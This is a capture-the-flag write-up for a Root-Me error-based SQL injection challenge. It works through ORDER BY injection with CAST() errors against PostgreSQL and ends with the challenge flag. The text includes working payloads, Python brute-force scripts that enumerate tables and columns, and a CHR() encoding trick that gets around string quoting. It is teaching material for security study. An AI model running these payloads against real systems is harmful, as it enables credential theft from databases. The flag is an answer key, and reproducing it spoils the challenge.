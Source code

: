 # SQL injection - Error

**Title**: Exploiting SQL error

**Point:** 40 Points

**Description:** Retrieve administrator’s password.

## Solution:F

First, we have to find the SQLi point. Try `1'` in login form but it's not worked. Access **Contents**, we can see the URL `?action=contents&order=ASC` with 2 parameters `action` and `order`. The possible SQLi point is in `order`.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273512-430dad81-59d4-42d6-8d9c-ad88ed5081f7.png"/> </p>

Try simple payload:

```
123' or 1=1 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273597-484fa0ff-2df0-4a09-af08-71046a69f741.png"/> </p>

We can see  full query in this chall and find out our input is appended to `order by page `. With this injecting position, we can't use any directly keyword like `UNION`, `WHERE`, `AND`, `OR` ... because **order by** is often a keyword at the end of the query. With some samples, we can find out the **filter** in back-end server.

Filter: `;`

We can confirm this is an order-by injection with:

```
ASC 
```
**NOTE: With some testing like using unique function like BINARY_CHECKSUM(MySQL), sqlite_verion(SQLite), ... and combine with error message format. We can easily detect this site use PostgreSQL**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276600-7a6e1798-3548-4db4-b816-526c57061b6a.png"/> </p>


[Reference the exploitation](https://portswigger.net/support/sql-injection-in-the-query-structure). To retrieve administrator’s password, we will take advantage of `CAST` function. This function's work is just simply trying to convert string to a specified type. For example, `CAST('123' as int)` will return `123`. But `CAST('khangtictoc' as int)` will return error message.

**NOTE: With MySQL, if CAST doesn't success. It will return '0'**

Construct payload using `CAST()` and put into the second parameter in `ORDER BY`. Use a query for returning the result when error happens when `CAST()` is triggered. Beside, `CAST()` only have 1 value, make sure our query return 1 rows

In PostgreSQL, there're 2 worth-mention table is `information_schema.tables` and `information_schema.columns` saving information for each database. We would try to retrieve columns's info. Payload:

```
asc, cast((select table_name from information_schema.talbes limit 1 offset 0) as int)
```

**NOTE: limit the number of rows by using limit. PostgreSQL don't allow to use any syntax like `LIMIT 1, 2`. We have to use keyword `OFFSET` in our query.**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275468-1e7b91a8-b20f-4bfb-84b1-bf4be974da5b.png"/> </p>

We have successfully retrieve the first table `m3mbr35t4bl3` in table. The point is, we just only get 1 values and we have to change the offset to get next value. So another way to do this quick is use **brute-force**. Use python code:

```python
import requests 
i = 0 
while(True):
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select table_name from information_schema.tables limit 1 offset " + str(i) + ") as int)")
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

This loop runs forever until we find a "doubting" table. After running a period of time, I realize the first table `m3mbr35t4bl3` is the correct table all the time   (~ . ~) and other tables belong to system.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160277266-3bcfc109-0f86-458a-be28-2af7ab780bb7.png"/> </p>


Try similar payload to retrieve all the **columns** in `information_schema.columns` which has our target table `m3mbr35t4bl3`

```
asc, cast((select column_name from information_schema.columns where table_name='m3mbr35t4bl3' limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275810-71b2800b-ca01-4a7c-81f2-ab61cc7506d4.png"/> </p>

This make me silent for a long time. After searching , I've known that **PostgreSQL** doesn't allow string like `'m3mbr35t4bl3'` as parameter - this will alert error syntax; also if we use double quote `"m3mbr35t4bl3"` instead, it would consider this `m3mbr35t4bl3` as a identifier. So we can use some method to construct a string like using `CHR()` function with ascii code to get the characters and combine with `||` to concat those into a string. Use this python code for quick generating: 

```python 
a = "m3mbr35t4bl3"
result = ""
for i in range (len(a)):
    if i != len(a) - 1:
        result += "chr(" + str(ord(a[i])) + ") || "
    else:
        result += "chr(" + str(ord(a[i])) + ")"
print(result)
```

Output:

```
chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51)
```

Create payload again, replace `'m3mbr35t4bl3'` with the output above:

```
asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276020-77f35d09-9804-4172-90a2-c76d1c472d73.png"/> </p>

It's worked !!! Change the query request in python code to brute-force all columns

```python
import requests 

i = 0 
while(True): 
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset " + str(i) + ") as int)")
        
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276192-508fd42e-9ce3-4dab-ac1d-80b9ddf68ee1.png"/> </p>


There's only 4 values returned. As we can see, `us3rn4m3_c0l` and `p455w0rd_c0l` is 2 columns that may contain 'username' and 'password'. Use 2 payload to retrieve each pair (username - password) to ensure the correct password.

```
asc, cast((select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276342-29a23d49-1915-46c8-ae23-2a6f7e1188e8.png"/> </p>

```
asc, cast((select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as int) 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276379-f3ead8b2-ee7b-43fd-8509-776cf375548b.png"/> </p>

**NOTE: This challenge is great ! They often put our target value returned in the first row. If `username` or `password` in the middle or at the end of the table. We will need to brute-force again.**

Final payload http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc,%20cast((select%20p455w0rd_c0l%20from%20m3mbr35t4bl3%20limit%201%20offset%200)%20as%20int)

Code Python used: [Brute-force](Brute-force.py) and [Generating string](Generating_string.py)

Flag: **1a2BdKT5DIx3qxQN3UaC**
